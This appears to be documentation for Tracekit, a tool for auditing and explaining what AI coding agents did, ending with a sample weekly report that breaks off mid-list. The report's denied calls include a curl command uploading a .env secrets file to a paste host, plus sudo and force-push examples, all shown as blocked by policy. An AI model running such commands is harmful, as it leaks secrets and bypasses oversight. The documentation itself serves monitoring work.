

**OVERVIEW**: `LOG INTACT` (the why log's hash chain checks) and `REPLAYABLE` (the run names a program a replay can
import), what the agents did (a flagged call is red: click one for why it happened), what needs attention, each with
its confirmed causes and **INVESTIGATE →**, the run's numbers, and how to read the evidence: *reached* is recorded,
not proof; a *confirmed cause* changed how often the action happens in replays; *ruled out* changed nothing detectable.



**TIMELINE** (the tape's **WHY LOG EVENTS** button: on a run's page, and on every page when no v2 runs are loaded):
every event, filtered by agent, type (inputs, model calls, tool calls, messages), **flagged only** and text. Click a
row for its NODE.

### WHY DID IT HAPPEN?



The run's tool calls, high alerts first; pick one. **Argument value / where the value came from** says, for each
value, *only from untrusted content*, *from a trusted source* or *written by the model*, and which source. Then the
verdict, how it got here and the candidate causes, with each test's effect bar (dot = effect, whisker = its 95%
interval), with → without, and **text reuse** (how much of the content's wording the next model output reused).
**DETAILS** opens the call's NODE. The detail panel's WHY tab shows the same for the call selected on the tape.
**COPY THIS EXPLANATION** copies the verdict, how it got here with each step's signed record, and the run; each
candidate cause links to its node and its record, and a run that names a program gets each cause's
`tracekit why test` command with **COPY**.

### A run's TIMELINE, EVIDENCE and the inspector

**TIMELINE** (key `3`) shows the run **BY CALL**, one row per call on one time axis (green ran, red blocked, refused or
failed, cyan flagged, hatched amber while it waited for a person, to the right edge while it still waits; click a row
for the call), or **BY AGENT**, one lane per agent. **EVIDENCE** (key `7`) walks the run's signed records in order,
each marked as covered when the viewer's check verified the run, lists the checks of its verifier report, stamps the
result (VERIFIED, FAILED with the first failing check, PENDING or NOT CHECKED) and gives the export and verify
commands: that check is the viewer's, operator-side, and the bundle checked with `tracekit verify` from the signed
release is the evidence. A call's inspector shows, after WHY THIS DECISION, **SAID VS DID**: what the model said
before and after the call beside the signed fact, marked BACKED (a gateway, executor or the signer wrote the result),
AGENT'S WORD (only the agent's own report) or CONTRADICTED (the record shows otherwise, or a text-check finding cites
it); and **WHOSE WORDS**: where the instruction behind a held or blocked call came from (TYPED, the person's request;
RELAYED, another agent's message; TOOL/WEB, a tool result or page), from the signed argument provenance and the run's
observed inputs, or that the records don't say.





### HORIZON


**HORIZON** (Event Horizon) draws every run's calls around a black hole, on three rings: the project, this machine and
the outside world. A shield marks a restricted place, a jet a call out to a host, and a click on a place lists who went
there and how we know (signed, observed by a sensor, or unverified). More: [Event Horizon](horizon.md).

### GRAPH: click a node



**GRAPH** (a run's view, key `4`) draws the run's data flow as a left-to-right flowchart, as Causeway did: inputs
(cyan), model calls (magenta), tool calls (green), messages (amber). Each arrow is graded by its proof: signed (amber,
both ends signed records), recorded flow (faint, a why log that isn't signed), observed (cyan: a network connection a
kernel sensor saw, drawn as a small node after its call; click it for its record), blocked (red dotted, into a call its
signed decision stopped), inferred (dashed). A red border is untrusted content, a thick red arrow a confirmed cause
with its effect, an amber dot a sensitive tool call; each arrow's tooltip names its grade. **FIT** (the default) fits the flowchart to the panel's width and height, never above actual size;
**ACTUAL SIZE** scrolls; **CLEAR HIGHLIGHT** undoes a click. The legend names only the marks the graph has. A run of
more than 600 events is too large to draw: GRAPH says so, and TIMELINE, WHY DID IT HAPPEN? and a call's WHY tab show
it. The picker names each run by its agents and short id. Click a node: the graph
keeps what it came from and led to and fades the rest, and panel 8's **NODE** tab shows it in full: for a model call
its model, time, tokens, what it saw (each a link) and what it produced; for a tool call its arguments, result,
policy decision and a **WHY DID THIS HAPPEN?** button; for an input or a message its content and trust. **Came from**
and **Led to** link the neighbours; **Record** gives its time, hash, previous hash and the signed Tracekit record it
cites. Click the node again, or **CLEAR HIGHLIGHT**, to see the whole graph. The checkboxes add inferred links and ruled-out
tests.

### A signed run's graph



`tracekit view` on a signer store with no why logs (no `--why`, no `why/` in its data dir) still has GRAPH: each run that verifies is imported read-only
(`why import --store`'s import) into the viewer's own temp dir, imported again as it grows, and removed once its rows
leave the live view (past `TRACEKIT_OBSERVE_MAX_RECORDS`) or it fails. Its tool calls read
left to right in run order; each node carries its signed decision: **DENIED** (red), **HELD** or **FLAGGED** (amber),
**APPROVED**, or ALLOWED (muted), with the first rule id. Click a node: NODE shows the decision, every rule with its
reason, who approved, and the record it cites. A run's arguments are only a salted commitment, so WHY can list the
path but not replay it. Run order is drawn dashed and muted: it is not a recorded link. A run whose calls are mostly
in run order (few or no links between them) wraps them into lines as wide as the panel, read left to right and down,
at full size with FIT too (`scroll ↓` when it is taller). With ACTUAL SIZE another flowchart wider than its panel
scrolls sideways (`scroll →` in the panel's title), and a clicked node is scrolled into view. A held call's node says how its approval ended
(**APPROVED**, **REJECTED**, **EXPIRED**). The why views follow the run whose page is open; a run that failed
verification has no graph, and GRAPH says why.

### AGENTS



Per agent: role, who spawned it, model and tool calls, messages, model time and tokens. **Channels used** says whether
a receiver's model call had each message in its context, and what a replay without the channel changed. The influence
matrix fills in as tests run; the critical path is the longest chain of the run.

### INFLUENCE



Across every why run, as a citation index: one row per kind of content and its trust (the person's prompts, messages
from another session, sub-agents' messages, background tasks' notices, ...; untrusted red), with how many sources of
that kind, in how many runs, the decisions that cited them, and beside them the tools they reached: first those whose
reached calls were blocked, held or a confirmed cause (with its effect), marked as such, then six more (flagged
first, then the most runs; **+N more** shows the rest; struck through where a replay ruled a link out). Click a row
for its sources one by one (the 200 that matter most: a confirmed cause, then those whose reached calls were stopped,
then the most cited), each named by where it was read: its run, record and time, with **OPEN** for that record.

### A v1 bundle



`tracekit view --bundle FILE` verifies a v1 bundle first and shows it only if it verifies; `--ledger` shows the live
v1 ledger. A tampered bundle is refused before anything is served:

```text
$ tracekit view --bundle docs/sample/demo-run-tampered.tkb
tracekit view: bundle docs/sample/demo-run-tampered.tkb FAILED verification (exit 1); refusing to show it. Run `tracekit verify docs/sample/demo-run-tampered.tkb` for the details.
```

## Laptop viewer



`tracekit view [--dev | --config signer.yaml | --data-dir DIR]` reads one signer's store, read-only, and verifies each
run with the code `tracekit verify` runs. The page is the observer's terminal, for runs:

- **Runs** (on DESK, and the RUNS page): each run with its agent's registered name, the verifier's verdict (`VERIFIED`, `FAILED`, or
  `PENDING` until a checkpoint covers the run's last record; every verdict is operator-side, see below), start time,
  duration, and its calls, blocked, held and gaps. Clicking a run scopes the tape, timeline, tool mix and header to it;
  **All runs** restores the full view. A run that fails shows only its verifier report.
- **Tape** filters: All, Decisions, Approvals, Gaps & alerts. A held call's approvals are rows (`HOLD`, `APPROVE`,
  `REJECT`) folded under the call's row, in words: who asked, which rules, who answered (attested, or vouched for by a
  bridge), the reason, self-approval (an approval only) and break-glass. The signer's own records (`signer.epoch`, `refusal.summary`, key records) are
  the `signer`'s rows, not an agent's.
- **Detail**: a call's decision, its rules with their reasons, its arguments commitment and approval binding, and the
  verdict of its run. v2 records keep a call's arguments only as a salted commitment, so the viewer shows the rules'
  reasons instead (from the policy whose hash the decision records: a shipped pack or the config's `policy`; other
  policies show rule ids only); `tracekit signer reveal --record <seq>` gives an auditor the salt. With the dev signer
  (`tracekit view --dev`, 1.2.2), each call also shows what it ran: its redacted arguments from the dev signer's
  [content vault](privacy.md#the-content-vault), read once per run and refresh (a `content.accessed` record each).
- **Asked and said** (with the dev signer's content): a person's prompt is a `PROMPT` row, and what the model said a
  `THINK` or `SAYS` row and an entry of the Reasoning panel, labelled by its form (full, summary, withheld: sealed or
  absent). A call's detail shows what was said before it in the message that asked for it, marked "signed before this
  call" only when its record is older than the decision. It is the model's account: self-reported, not proof. Without
  content, a line shows as said, its text not kept here (the record holds only its commitment).
- **Run review** (detail, with a run selected and no row): Integrity and Assurance, allowed / flagged / denied / held
  and who approved, gaps by kind, coverage. Each line opens its first record. Once a dev run is final, its
  [findings](findings.md#v2-runs-what-was-asked-said-and-done-tracekit-analyze---v2) (`tracekit analyze --v2`) are
  `FINDING` alerts with links to the records they cite, and the review's FINDINGS, MONITORABILITY and NOT CHECKABLE
  lines, beside the integrity line, never in it.
- **Replay** (with a run selected): `SPACE` plays or pauses, `←` `→` step one record, `D` `H` `G` jump to the next deny,
  hold or gap, `L` or `ESC` returns to live. The header and tape show the run as of the playhead; the timeline marks
  it.

The timeline is scaled to the calls shown, not the clock. The page and server are the observer's, with its
checklist ([security-checklist.md](security-checklist.md)).

### Laptop viewer API

Every request needs the token: `$TRACEKIT_VIEW_TOKEN`, else a random one that `tracekit view` prints in its URL (with
`$TRACEKIT_VIEW_TOKEN` set the printed URL carries none: add `?token=…` yourself). Open `/?token=…` once: the page
exchanges it for an `HttpOnly` session cookie and reloads without it; the cookie holds nothing of the token and lasts
8 hours, and only while this viewer runs (open the URL again after that). A script sends `Authorization: Bearer <token>`
instead; `?token=` on an `/api/` path is refused (401), so the token never sits in an API URL. These requests are
`GET`s; with `--why` the replays and ingest are `POST`s ([below](#why)):

| Path | Answers |
|---|---|
| `/api/snapshot` | `{next, dropped, max, records, source?}`: the tape rows the page renders (each run's verifier report, then its records once it verifies), `next` the index to stream from, `dropped` how many rows left the live view and `max` how many it holds; `source` is `bundle` when the viewer shows a v1 bundle |
| `/api/verify` | `{records, ok, problems, head, stopped}`: how many records are shown from runs that verified, each run that failed or could not be checked with why (the header's chain badge), and `stopped`, why the viewer stopped checking runs if it did (the page then says STOPPED, not LIVE) |
| `/api/stream?from=N` | `text/event-stream`: one `data:` line per record from index `N` on, as they are recorded |
| `/api/rows?tenant=T&run=R` | `{rows}`: one run's rows from its bundle as verified (exported from the store, verified, then translated), for a run whose records left the live view (the page asks for it when you select such a run); checked again only once the run's own records grow, refused (404) once the viewer's own re-check fails the run, and answered 503 with `Retry-After` while two other runs are being checked (only a check reads the store; a run the viewer hasn't verified yet is 404); an OIDC session reads its tenant's runs only |
| `/api/why/workspace`, `/api/why/runs/<id>` | the why logs, with `--why` ([below](#why)) |

The run pages and their API (`/runs`, `/api/runs`, `/api/run`, `/api/bundle`) are the central viewer's, served only
with `view.logs` ([below](#pages-and-api)).

## Weekly report

"What did our coding agents do this week?" The viewer answers one run at a time. `tracekit report` reads the same store
the same way and prints one page you can read in two minutes, in a terminal or pasted into an email:

```bash
tracekit report                                         # the dev signer's store, the last 7 days
tracekit report --since 24h                             # 7d, 24h, or an ISO date or time (UTC unless it says)
tracekit report --since 2026-10-19 --until 2026-10-26   # --until is not included
tracekit report --config signer.yaml --tenant acme      # a configured signer's store, one tenant
tracekit report --json > week.json                      # the same report as one JSON object, for scripts
```

It takes the viewer's store options (`--dev`, the default; `--config`; `--data-dir`; `--log-vkey`) and needs the same
access to the store. The HORIZON demo's four agents (a planner and the coder, researcher and reviewer it starts), every
call decided by a real dev signer (the store's path shortened):

```text
Tracekit report: 2026-10-22 08:34 UTC to 2026-10-29 08:34 UTC
Source: ~/Library/Application Support/tracekit/data/store

Runs: 4   by agent: researcher 1, planner 1, coder 1, reviewer 1
  by identity: uid:501 (attested) 4

Tool calls: 460   allow 413, flag 38, ask 3, deny 6

Holds (calls held for a person): 3   expired 1, approved · ran 1, rejected 1
  answered by: uid:501 (attested) · self-approved 1, uid:501 (attested) 1
  longest wait for an answer: 6s (Bash, run 6a00d9bb2ee2b351a8c7e01922efc47d)
  e.g. expired: Bash gsutil -m rsync -r docs gs://acme-shop-docs/  (run 4fb9d51c5b3bf41b3281df18ead16d55)
  e.g. approved · ran: Bash gsutil cp -r dist gs://acme-shop-staging/releases/  (run 6a00d9bb2ee2b351a8c7e01922efc47d)
  e.g. rejected: Bash aws s3 sync dist s3://acme-shop-prod/releases/  (run 94a4eb27d3257cf540c7aa9e45ff1f4c)

Denied calls (6), by rule (one call can match several rules):
  TK-D001  1  privilege escalation
      e.g. Bash sudo npm install -g pnpm  (run 6a00d9bb2ee2b351a8c7e01922efc47d)
  TK-D003  1  force push
      e.g. Bash git push --force origin main  (run 94a4eb27d3257cf540c7aa9e45ff1f4c)
  TK-D005  1  writing to a credentials file
      e.g. Write · arguments not shown (the record holds only their salted hash)  (run 6a00d9bb2ee2b351a8c7e01922efc47d)
  TK-D006  1  uploading a secrets file
      e.g. Bash curl -s -X POST --data-binary @.env https://paste.example.net/upload  (run 106c78de23debce149d134d8dcea39e2)
  TK-D009  1  writing to the agent harness's transcripts
